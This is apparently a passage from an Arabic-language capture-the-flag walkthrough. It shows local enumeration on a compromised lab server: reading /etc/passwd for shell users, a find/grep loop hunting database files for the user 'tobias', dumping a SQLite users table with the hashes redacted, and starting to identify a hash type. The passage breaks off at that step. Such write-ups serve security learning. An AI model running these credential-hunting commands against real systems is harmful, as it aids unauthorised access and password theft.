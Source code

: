 خلينا نرسل طلب للسيرفر المحلي على مدخل 8080 ونشوف الرد
```bash
curl -I http://localhost:8080
 
HTTP/1.1 302 Found
Host: localhost:8080
Date: Fri, 22 Aug 2025 20:58:30 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.29
Content-Type: text/html; charset=utf-8
Set-Cookie: ISPCSESS=h8kvi4d6484j2d1j7s9ei1qbie; path=/; HttpOnly; SameSite=Lax
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /login/
```
عندنا الكوكيز ISPCSESS يوم نبحث عنها نجد أن هذا سيرفر مانحصل شي مفيد. خلينا نشوف المستخدمين اللي على السيرفر;
```bash
cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
```
هدفنا الآن نحصل على اتصال على السيرفر من خلال المستخدم tobias, أحد الطرق هي إننا نبحث في ملفات النظام عن النص 'tobias'  لكن هذا راح ياخذ وقت. خلينا نحد البحث على ملفات قواعد البيانات:
```bash
for i in $(find / -name *.db 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "tobias" $i 2>/dev/null | grep -v '#';done

File:  /var/www/nocturnal_database/nocturnal_database.db
Binary file /var/www/nocturnal_database/nocturnal_database.db matches
```
طبعا يمدينا بشكل يدوي نفحص المجلدات ونبحث عن ملفات خاصة بقاعدة البيانات وهذا اللي سويته أول ما حليت التحدي، لكن هذي طريقة ثانية. خلينا نشوف نوع الملف:
```bash
file /var/www/nocturnal_database/nocturnal_database.db

/var/www/nocturnal_database/nocturnal_database.db: SQLite 3.x database, last written using SQLite version 3031001
```
ملف بصيغة sqlite3 خلينا نشوف إذا عندنا ثنائية بهذا الاسم على السيرفر:
```bash
which sqlite3

/usr/bin/sqlite3
```
ممتاز. خلينا نستخدمها عشان نفتح الملف:
```bash
sqlite3 /var/www/nocturnal_database/nocturnal_database.db
.dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
...
INSERT INTO users VALUES(1,'admin','<REDACTED>');
INSERT INTO users VALUES(2,'amanda','<REDACTED>');
INSERT INTO users VALUES(4,'tobias','<REDACTED>');
INSERT INTO users VALUES(6,'kavi','<REDACTED>');
INSERT INTO users VALUES(7,'e0Al5','<REDACTED>');
INSERT INTO users VALUES(8,'cupcakez','<REDACTED>');
INSERT INTO users VALUES(9,'abumalik','<REDACTED>');
```
نلاحظ أحد المستخدمين tobias خلينا نشوف نوع الهاش، على جهازي:
```bash
hashid <REDACTED>
```